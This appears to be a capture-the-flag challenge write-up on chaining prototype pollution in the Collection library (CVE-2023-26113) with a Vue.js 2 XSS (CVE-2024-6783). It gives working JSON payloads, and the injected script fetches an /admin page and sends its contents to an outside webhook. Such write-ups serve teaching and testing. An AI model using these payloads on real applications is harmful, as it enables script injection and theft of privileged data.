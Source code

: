 
# CVE Challenge: Prototype Pollution and XSS Exploit

This challenge involves a CVE-related vulnerability that results in prototype pollution, which can then be exploited to achieve XSS through a secondary vulnerability in Vue.js.

## Vulnerability Overview

### CVE-2023-26113: Prototype Pollution

The application uses an outdated version of the Collection library, which is vulnerable to CVE-2023-26113. This vulnerability allows for prototype pollution. The issue lies in the `create.js` file with the following code:

```javascript
$C.extend(true, points, data);
```

This function uses `.apply` without checking for `getOwnProperty`, allowing the `points` array to be polluted since `data` can be any JSON input provided by the user.

### CVE-2024-6783: Vue.js XSS via Prototype Pollution

The prototype pollution vulnerability can be exploited through CVE-2024-6783, a known issue in Vue.js 2 that allows XSS if prototype pollution is present. By polluting `Object.prototype.staticClass` with malicious script content, arbitrary code execution can be achieved.

## Exploitation Steps

### Step 1: Pollute the Prototype

You can begin by polluting the prototype using the following JSON payload:

```json
{"__proto__": 
    {"__proto__": 
        {"staticClass":"JSCODEHERE"}
    }
}
```

### Step 2: Insert Malicious Script

This pollution doesn't immediately trigger the vulnerability because the `staticClass` usage is wrapped in a `with(this)` enclosure. However, by inserting your own `<script>` element into the page, you can execute arbitrary code. Here's an example:

```javascript
_c('script',[_v('fetch(`/admin`).then(res=>res.text()).then(dat=>fetch(`webhook?`%2bdat))')])
```

The `_c` function creates a new element in Vue, and the second input array is the content of that element.

### Combined Exploit

By combining these techniques, you can create a payload that looks like this:

```json
{"__proto__": 
    {"__proto__": 
        {"staticClass":"'',attrs:{'id':'main-app'}},[_c('h1',[_v('Main Vue Content')]),_v(' '),_c('script',[_v('fetch(`/admin`).then(res=>res.text()).then(dat=>fetch(`{webhook}?`%2bdat))')]),_v(' '),_c('div',{staticClass:'',attrs:{'id':'dynamic-component'}}])}\/\/"}}
}
```

This payload effectively exploits the prototype pollution to inject and execute JavaScript code on the vulnerable page.


